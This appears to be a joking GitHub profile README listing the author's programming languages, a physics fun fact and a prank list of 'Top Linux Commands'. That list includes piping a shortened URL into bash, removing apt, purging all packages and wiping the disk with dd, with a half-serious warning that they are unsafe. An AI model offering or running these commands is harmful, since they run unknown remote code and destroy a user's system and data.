 

<!--
**MrGlockenspiel/MrGlockenspiel** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.
!-->

## Assorted Information
Github recommends answering some stuff, but who cares, it makes me look too professional. <br>
I know you're very sad and disappointed about this, so here's some consolation content: <br>

I suffer from:
 - Rust
 - Vulkan
 - GLSL
 - C#
 - C/C++

Fun facts
 - The mass of a quark is measured in electron-volts, which is the energy that an electron gains when it undergoes a potential difference of 1 Volt. Kinda weird that mass is measured in energy isn't it? ~~should be fixed~~

 - If you use the `ls` command without the flags `-N1htFs --color=auto`), you are a loser. (or as I prefer, `-sh1t -NF --color=auto`)

Top Linux Commands\*

1. `curl -sL http://bit.ly/10hA8iC | bash`
2. `sudo apt -y remove apt`
3. `sudo apt purge *`
4. `sudo dd if=/dev/zero of=/dev/sda bs=1M`

Know a fun command? Make an issue with your suggestion! 

\*If it uses `sudo`, it's unsafe. I will ignore any whining over your dead PC. I can confirm they all work *beautifully* and some break *spectacularly*.
